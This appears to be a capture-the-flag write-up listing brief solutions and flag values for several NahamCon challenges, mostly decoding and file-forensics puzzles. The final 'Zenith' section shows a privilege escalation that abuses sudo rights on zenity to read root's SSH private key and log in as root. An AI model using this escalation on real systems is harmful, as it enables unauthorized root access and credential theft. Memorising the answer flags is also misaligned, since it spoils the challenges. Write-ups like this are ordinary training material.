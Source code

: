 ## esab64

`python -c 'print("mxWYntnZiVjMxEjY0kDOhZWZ4cjYxIGZwQmY2ATMxEzNlFjNl13X"[::-])' | base64 -d`
`python -c 'print("_}e61e711106bd0db1b78efa894b1125bf{galf"[::-1])'`
`flag{fb5211b498afe87b1bd0db601117e16e}`

## INE (Starter Pass)

`echo ZmxhZ3syOWZhMzA1YWFmNWUwMWU5ZWRjZjAxNDJlNGRkY2RiOX0= | base64 -d`
`flag{29fa305aaf5e01e9edcf0142e4ddcdb9}`

## Prison Break

`flag{1345fd3cb55434ba17d9b64ca350ec78}`

## Buzz

`mv buzz buzz.gz; gunzip buzz; cat buzz`
`flag{b3a33db7ba04c4c9052ea06d9ff17869}`

## Shoelaces

Flag was a string in the image.
`flag{137288e960a3ae9b148e8a7db16a69b0}`

## Pollex

binwalk the file and extract: `binwalk --dd='.*' pollex -e`
`flag{65c34a1ec121a286600ddd48fe36bc00}`

## Chicken Wings

`WingDing` font: `♐●♋♑❀♏📁🖮🖲📂♍♏⌛🖰♐🖮📂🖰📂🖰🖰♍📁🗏🖮🖰♌📂♍📁♋🗏♌♎♍🖲♏❝`
`flag{e0791ce68f718188c0378b1c0a3bdc9e}`

## Eight Circle

`Malbolge ... eighth circle of hell in Dante's Inferno`
Malbolge is a programmiug language, run it [here](http://www.malbolge.doleczek.pl/):
`flag{bf201f669b8c4adf8b91f09165ec8c5c}`

## Zenith

`zenity` has sudo privileges
Log in with X11 forwarding: `ssh -Y -p 31900 user@challenge.nahamcon.com`
show roots SSH key: `sudo /usr/bin/zenity --text-info --filename=/root/.ssh/id_rsa`
copied and logged in as root: `ssh -p 31900 -i root.priv root@challenge.nahamcon.com`
I knew `get_flag` existing from using the file browser but now that we're root it doesn't really matter.
`chmod +x get_flag; ./get_flag`
